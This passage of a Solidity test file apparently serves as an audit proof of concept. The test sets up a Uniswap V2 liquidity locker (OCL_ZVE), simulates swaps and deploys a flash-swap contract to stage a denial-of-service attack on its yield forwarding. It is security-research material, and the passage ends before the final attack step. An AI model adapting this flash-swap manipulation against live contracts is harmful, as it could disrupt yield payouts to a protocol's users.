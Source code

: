 ```solidity
        OCL_ZVE_UNIV2_USDC =
            new OCL_ZVE(address(DAO), address(GBL), USDC, UNISWAP_V2_ROUTER_02, UNISWAP_V2_FACTORY, address(Treasury));

        zvl.try_updateIsLocker(address(GBL), address(OCL_ZVE_UNIV2_USDC), true);

        UNIV2_ROUTER = OCL_ZVE_UNIV2_USDC.router();
    }

    function test_attack_forwardYield_DOS() public {
        hevm.startPrank(whale);
        IERC20(usdc).transfer(address(this), 10000 * 10 ** 6);
        hevm.stopPrank();

        address[] memory assets = new address[](2);
        uint256[] memory amounts = new uint256[](2);

        assets[0] = usdc;
        assets[1] = address(ZVE);
        amounts[0] = 10000 * 10 ** 6;
        amounts[1] = 10000 ether;

        // Pre-state before adding liquidity
        assertEq(OCL_ZVE_UNIV2_USDC.basis(), 0);
        assertEq(OCL_ZVE_UNIV2_USDC.nextYieldDistribution(), 0);

        // 1. OCL_ZVE add liquidity to uniswap pool
        assert(god.try_pushMulti(address(DAO), address(OCL_ZVE_UNIV2_USDC), assets, amounts, new bytes[](2)));

        // Post-state after adding liquidity
        (uint256 basis, uint256 lpTokensBefore) = OCL_ZVE_UNIV2_USDC.fetchBasis();
        assertGt(lpTokensBefore, 0);
        assertEq(OCL_ZVE_UNIV2_USDC.basis(), basis);
        assertEq(OCL_ZVE_UNIV2_USDC.nextYieldDistribution(), block.timestamp + 30 days);

        hevm.startPrank(whale);
        IERC20(usdc).transfer(user, 100000 * 10 ** 6);
        hevm.stopPrank();

        // 2. simulate swapping
        hevm.startPrank(user);
        IERC20(address(ZVE)).approve(UNIV2_ROUTER, type(uint128).max);
        IERC20(usdc).approve(UNIV2_ROUTER, type(uint128).max);
        for (uint256 i = 0; i < 20; i++) {
            simulationSwapUSDCToZVE(10 * 10 ** 6);
        }
        hevm.stopPrank();

        // 3. normally amount > basis
        (uint256 amount,) = OCL_ZVE_UNIV2_USDC.fetchBasis();
        assertGt(amount, basis);

        // 4. flashswap
        address pair = IUniswapV2Factory(UNISWAP_V2_FACTORY).getPair(usdc, address(ZVE));
        flashswap = new FlashSwap(pair);

        hevm.startPrank(whale);
        IERC20(usdc).transfer(address(flashswap), 10000 * 10 ** 6);
        hevm.stopPrank();

        hevm.warp(OCL_ZVE_UNIV2_USDC.nextYieldDistribution() + 1);

```